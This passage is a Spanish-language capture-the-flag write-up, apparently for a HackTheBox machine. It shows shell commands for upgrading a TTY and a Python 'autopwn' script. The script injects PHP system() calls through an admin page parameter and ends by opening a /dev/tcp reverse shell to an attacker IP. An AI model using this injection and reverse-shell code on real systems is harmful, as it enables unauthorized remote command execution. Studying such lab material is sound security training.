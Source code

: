### Tratamiento de la TTY {-}

```bash
script /dev/null -c bash
^Z
stty raw -echo; fg
-> reset
export SHELL=bash

stty -a

stty rows <numero filas> columns <numero columnas>
```

### Creacion del autopwn en python {-}

Aqui s4vitar decide crear un autopwn para automatizar el processo de ganacia de accesso

```python
#!/usr/bin/python3

import requests
import pdb
import sys
import signal
import threading
import time

from pwn import *

def def_handler(sig, frame):
    
    print("\n[!] Saliendo...\n")
    sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

# Variables globales
main_url = "http://10.10.10.27/admin.php"
burp = {'http': 'http://127.0.0.1:8080'}
lport = 443

def makeRequest():

    headers = {
        'Cookie': 'adminpowa=noonecares'
    }

    r = requests.get(main_url + "?html=<?php%20system(\"cp%20/bin/bash%20/dev/shm/s4vitar\");%20?>", headers=headers)
    r = requests.get(main_url + "?html=<?php%20system(\"chmod%20+x%20/dev/shm/s4vitar\");%20?>", headers=headers)
    r = requests.get(main_url + "?html=<?php%20system(\"/dev/shm/s4vitar%20-c%20'/dev/shm/s4vitar%20-i%20>%26%20/dev/tcp/10.10.14.20/443%200>%261'\");%20?>", headers=headers)

    print(r.text)

if __name__ == '__main__':

    try:
        threading.Thread(target=makeRequest,args=()).start()
    except Exception as e:
        log.error(str(e))

```